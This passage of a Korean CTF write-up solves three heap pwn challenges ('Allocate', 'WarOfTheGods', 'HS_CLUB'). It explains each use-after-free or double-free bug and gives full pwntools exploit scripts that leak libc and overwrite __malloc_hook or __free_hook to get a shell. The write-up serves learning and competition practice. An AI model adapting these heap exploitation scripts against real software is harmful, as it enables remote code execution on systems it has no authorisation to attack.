leak은 calloc_chunk가 realloc_chunk로 변할때 초기화가 되지않는다는 점에서 발생한다. 즉 calloc_chunk를 출력할 때 unsortedbin_chunk의 fd,bk를 출력시키면 libc를 얻을 수 있다. 이후에는 malloc hook을 one_shot 가젯으로 덮어주면 된다.

```python
from pwn import *

#s = process('./Allocate')
s = remote('222.110.147.52',28417)
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def malloc(size,data):
	s.sendlineafter('> ','1')
	s.sendlineafter('> ','1')
	s.sendlineafter('size: ',size)
	s.sendafter('data: ',data)
	s.sendlineafter('> ','6')

def calloc(size,data):
	s.sendlineafter('> ','1')
	s.sendlineafter('> ','2')
	s.sendlineafter('size: ',size)
	s.sendafter('data: ',data)
	s.sendlineafter('> ','6')

def realloc(size,alloc_type,index,data):
	s.sendlineafter('> ','1')
	s.sendlineafter('> ','3')
	s.sendlineafter('size: ',size)
	s.sendlineafter('> ',alloc_type)
	s.sendlineafter('idx: ',index)
	s.sendafter('data',data)
	s.sendlineafter('> ','6')

def free(alloc_type,index):
	s.sendlineafter('> ','1222')
	s.sendlineafter('> ',alloc_type)
	s.sendlineafter('index: ',index)


pause()

malloc(str(0x108),'A')
malloc(str(0x28),'A')
realloc(str(0x208),'1','0','B')
calloc(str(0x28),'A' * 0x28)
realloc(str(0x108),'2','0','B' * 8 * 6)

s.sendlineafter('> ','3')
s.recvuntil('B' * 8 * 6)
libc_base = u64(s.recv(6) + "\x00" * 2) - 0x3c4b78 // leak

log.info("LIBC_BASE : " + hex(libc_base))

malloc(str(0x68),'A')
malloc(str(0x68),'A')
free('1','2')
free('1','3')
free('1','2') // fastbin dup
malloc(str(0x68),p64(libc_base+l.symbols['__malloc_hook'] - 0x23))
malloc(str(0x68),'A')
malloc(str(0x68),'A')

oneshot = libc_base + 0xf1117
malloc(str(0x68),'A' * 0x13 + p64(oneshot))
s.interactive()
```

FLAG : FLAG is FLAG{S0lo_Att4cks_the_H3ap_during_Chr1s7mas}
<br><br><br>

## WarOfTheGods 991 (Pwn)
```
Can you win?
nc 222.110.147.52:5265
HINT1: fastbin dup into stack
Link
```

### Introduction
힌트가 fastbin dup into stack이길래 처음엔 그거로 해보려했는데 귀찮아질꺼 같아서 다른방법 찾다가 일반적인 fastbin dup로 풀었다. 그러니 정풀이는 아닌거같다.

### Reversing
바이너리 분석하기전에 취약점을 찾아서 리버싱을 많이 안하고 익스했다.
1. Character management - 캐릭터를 만듬
	1. Human
		1. birth (캐릭생성)<br>
		2. death (캐릭삭제)<br>
		3. birthList (캐릭보기)<br>
		4. edit (캐릭이름수정)<br>
	2. God
		1. Creating (캐릭생성)<br>
		2. Killing (캐릭삭제)<br>
		3. New_God_List (캐릭보기)<br>
		4. Editing (캐릭이름수정)<br>
	3. DemiGod
		1. Craete (캐릭생성)<br>
		2. Delete (캐릭삭제)<br>
		3. List (캐릭보기)<br>
		4. Edit (캐릭이름수정)<br>
2. Colosseum - 싸움 (익스에 안써서 잘은 모르겠다)
3. Game way - 게임방법 출력

### Vulnerability
DemiGod은 할당받을때 부모를 Human에서 하나, God에서 하나선택해야한다. 그런데 DemiGod을 삭제하면 부모 God의 name이 free된다. 그 시점에서 부모 God이 free된 name을 가르키므로 Use-After-Free가 발생한다. 또한 부모 God을 삭제하면 한번더 name을 free해서 double free가 발생한다. 

### Exploit
Leak은 unsorted bin chunk의 fd,bk를 이용하여 libc를 leak하면 된다. (할당시 chunk초기화를 진행하지 않음) 익스는 약간 복잡한데, 아래와같은 과정을 통하여 할 수 있다.

1. libc_leak (using unsorted chunk)
2. create human chunk
3. create god chunk
4. create demigod chunk
5. free demigod chunk (UAF!!) (god name chunk size is 0x30)
6. create human chunk (god name -> human chunk)
7. create human chunk
8. delete human chunk(6) (free god_name)
9. delete human chunk(7)
10. delete demigod chunk(6) (free demigod) (Double Free!!)
11. create human chunk (weapon size is not 0x30)
12. create human chunk (weapon size is 0x30)
13. overwrite free_hook in human chunk
14. free_hook -> system (using edit)
15. free("/bin/sh")

(코드안 주석은 기분대로 단거니까 무시해주세요)
```python
from pwn import *

#s = process('./WarOfTheGods')
s = remote('222.110.147.52',5265)
l = ELF("/lib/i386-linux-gnu/libc.so.6")

def create(character_type):
	s.sendlineafter('> ','1')
	s.sendlineafter('> ',character_type)
	s.sendlineafter('> ','1')
pause()

create('1')
s.sendlineafter(': ',str(0x100)) # len
s.sendlineafter(': ',"A" * 0x30) # name
s.sendlineafter('? ','2') # weapon
s.sendlineafter(': ',"1") # str
s.sendlineafter(': ',"1") # int
s.sendlineafter(': ',"1") # speed

s.sendlineafter('> ','2')
s.sendlineafter(': ',"4") # speed

s.sendlineafter('> ','1')
s.sendlineafter(': ',str(0x100)) # len
s.sendafter(': ',"A") # name
s.sendlineafter('? ','2') # weapon
s.sendlineafter(': ',"1") # str
s.sendlineafter(': ',"1") # int
s.sendlineafter(': ',"1") # speed

s.sendlineafter('> ',"3") # view

s.recvuntil('4\nHuman NAME: ')
libc_base = u32(s.recv(8)[4:]) - 0x1b27b0
log.info("LIBC_BASE : " + hex(libc_base))

s.sendlineafter('> ',"5") # back
s.sendlineafter('> ',"2") # god
s.sendlineafter('> ',"1") # create

for i in range(4):
	s.sendlineafter(': ','1234')

s.sendlineafter(': ',str(0x30)) # len
s.sendlineafter(': ','A') # name
s.sendlineafter(': ','B') # abilities

# create demigod --- god
s.sendlineafter('> ',"5") # back
s.sendlineafter('> ',"3") # demigod
s.sendlineafter('> ',"1") # create

s.sendlineafter(': ','4') # dad
s.sendlineafter(': ','4') # mom
s.sendlineafter(': ','30') # len
s.sendlineafter(': ','A') #name
s.sendlineafter(': ','A') # ability
s.sendlineafter('> ','2')
s.sendlineafter(': ',"0") # delete

# create human
s.sendlineafter('> ',"5") # back
s.sendlineafter('> ',"1") # create
s.sendlineafter('> ',"1") # human
s.sendlineafter('> ',"1") # create
s.sendlineafter(': ',str(0x60)) # len
s.sendlineafter(': ','A') # name
s.sendlineafter('? ','2') # weapon
s.sendlineafter(': ',"1") # str
s.sendlineafter(': ',"1") # int
s.sendlineafter(': ',"1") # speed

s.sendlineafter('> ',"1") # create
s.sendlineafter(': ',str(0x60)) # len
s.sendlineafter(': ','/bin/sh') # name
s.sendlineafter('? ','2') # weapon
s.sendlineafter(': ',"1") # str
s.sendlineafter(': ',"1") # int
s.sendlineafter(': ',"1") # speed

# del human * 2
s.sendlineafter('> ',"2") # del
s.sendlineafter(': ',"5")
s.sendlineafter('> ',"2") # del
s.sendlineafter(': ',"4")

# del god -- double free --
s.sendlineafter('> ',"5") # back
s.sendlineafter('> ',"2") # god
s.sendlineafter('> ',"2") # del
s.sendlineafter(': ',"4")

# create human
s.sendlineafter('> ',"5") # back
s.sendlineafter('> ',"1") # human
s.sendlineafter('> ',"1") # create
s.sendlineafter(': ',str(0x60)) # len
s.sendlineafter(': ','A') # name
s.sendlineafter('? ','2') # weapon
s.sendlineafter(': ',"1") # str
s.sendlineafter(': ',"1") # int
s.sendlineafter(': ',"1") # speed

s.sendlineafter('> ',"5") # back
s.sendlineafter('> ',"1") # human
s.sendlineafter('> ',"1") # create
s.sendlineafter(': ',str(0x30)) # len
s.sendlineafter(': ',p32(libc_base + l.symbols['__free_hook'])) # name
s.sendlineafter('? ','2') # weapon
s.sendlineafter(': ',"1") # str
s.sendlineafter(': ',"1") # int
s.sendlineafter(': ',"1") # spee

# overwrite __free_hook
s.sendlineafter('> ',"4") # edit
s.sendlineafter(': ',"4") # human
s.sendlineafter(' your name:',p32(libc_base + l.symbols['system']))

s.sendlineafter('> ',"1") # human
s.sendlineafter('> ',"2") # del
s.sendlineafter(': ',"6") # shell

s.interactive()
```

FLAG : FLAG is FLAG{E@sy_I5_it_3asy?_It_is_ea5y_!!}
<br><br><br>

## HS_CLUB 997 (Pwn)
```
Hacking Create and grow security clubs!
222.110.147.52:35163
Hint: sub_4009e0 함수에 취약점이 있다
Link
```

### Introduction
사실 이것도 힌트를보면 sub_4009e0에 취약점이 있다고 하는데 아마 1바이트 null overflow를 말하는것 같다. 그 취약점을 바이너리 열자마자 보긴했는데, 만약 저걸로 익스하면 unsafe unlink로 익스해야하고 힙 풍수를 맞춰주는게 귀찮아서 fastbin dup로 풀었다. 이것도 정풀이는 아닌듯싶다. 아마 첫번째로 생각한 방법이 출제자의 의도였을것이라 생각한다.

### Reversing
1. add (학생을 할당한다)
2. delete (해제)
3. edit (수정)
4. view (보기)
5. club (club 메뉴)
	1. Add (Club 추가)
	2. Delete (삭제)
	3. Edit (수정)
	4. view (보기)
	5. Join (학생을 이 클럽에 가입시킴)
	6. Back
	
### Exploit
Club을 추가할 때 UAF가 발생한다. Club의 구조체는 아래와 같다.
```c
struct club
{
  char *club_name;
  __int64 *club_name_size;
  __int64 *student1;
  __int64 *student2;
  __int64 *student3;
  __int64 *student4;
  __int64 *student5;
  __int64 *club1;
  __int64 *club2;
  __int64 *club3;
  __int64 *club4;
  __int64 *club5;
};
```
이 구조체에서 club1~5와 student1~5를 초기화하지않아서 UAF가 발생하는데, 그러면 자유롭게 free와 leak을 할 수 있게된다. 그래서 바로 fastbin dup로 익스했다.

```python
from pwn import *

#s = process('./HS_CLUB')
s = remote('222.110.147.52',35163)
e = ELF('./HS_CLUB')
l = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def add(size,content):
	s.sendlineafter('> ','1')
	s.sendlineafter('> ',size)
	sleep(0.05)
	s.sendline(content)

def club_add(size,content,track,you_track):
	s.sendlineafter('> ','1')
	s.sendlineafter('> ',size)
	s.sendlineafter('> ',content)
	s.sendlineafter('> ',track)
	s.sendlineafter('> ',you_track)


def delete(index):
	s.sendlineafter('> ','2')
	s.sendlineafter('> ',index)

def club(index):
	s.sendlineafter('> ','5')
	s.sendlineafter('> ',index)

member = 0x6030C0

pause()

add(str(0x20),'A' * 0x20)
add(str(0x68),(p64(e.got['puts']) + p64(member)) * 6)
delete('1')
club('0')
club_add(str(0x20), 'C' * 3, '1', '1')
club('0')
s.sendlineafter('> ','4')

s.recvuntil('AAAA | ')
heap_base = u32(s.recv(4)) - 0x10
s.recvuntil(' | ')
libc_base = u64(s.recv(6) + "\x00" * 2) - l.symbols['puts']

log.info('HEAP BASE : ' + hex(heap_base))
log.info('LIBC BASE : ' + hex(libc_base))
delete('0')

add(str(0x68),'A' * 0x20)
add(str(0x68),'B' * 0x58 + p64(0xe1))
add(str(0x68),'A' * 0x20)
delete('0')
delete('1')
delete('2')

#debug()
add(str(0x20),'A' * 0x20)
add(str(0x68),'C' * 0x10 + 'A' * 8 * 5 + p64(heap_base + 0x170))
delete('1')
club('0')
club_add(str(0x20), 'D' * 0x20, '1', '1')
add(str(0x20),'A' * 0x20)
club('0')
sleep(0.05)
delete('0')
#s.sendlineafter('> ','4')

oneshot = libc_base + 0xf1117
add(str(0xe0),'F' * 0x8 + p64(0x71) + p64(libc_base + l.symbols['__malloc_hook'] - 0x23))
add(str(0x68),'F' * 0x8)
add(str(0x68), 'A' * 0x13 + p64(oneshot))

s.interactive()
```
FLAG : FLAG is FLAG{Null_by7e_t0_control_th3_club :)}

## Review
포너블밖에 할 줄 아는 게 없어서 걱정했는데 리버싱이랑 웹이 생각보다 쉽게 나와서 다행이었다. 그리고 포너블도 c binary에 대한 전형적 heap exploit을 다뤄서 그거 말고 할 줄 아는 게 없는 나로서는 재미있게 풀었다. 아마 쉘코딩문제나 C++ 문제면 힘들었을 것 같다. 대회 중간에 4dog가 4개를 의미한다는걸 깨닫고 좀 많이 충격받긴 했는데 어쨌든 전체적 문제퀄리티는 높아서 좋았다. 36시간이라 20문제를 다풀 수 있지 않을까 했는데 결국 3문제를 못 풀어서 웹과 리버싱을 좀 더 공부해야겠다고 느꼈다. 특히 마지막까지 unknown을 잡고있었는데 역연산코드 안짜고 어떻게든 바이너리단에서 해보려고 발악하다가 포기했다. gdb 쓰기도 pwndbg쓰다가 일반 gdb쓰니 잘 보이지도 않고해서 버렸는데 약간 아쉽다.


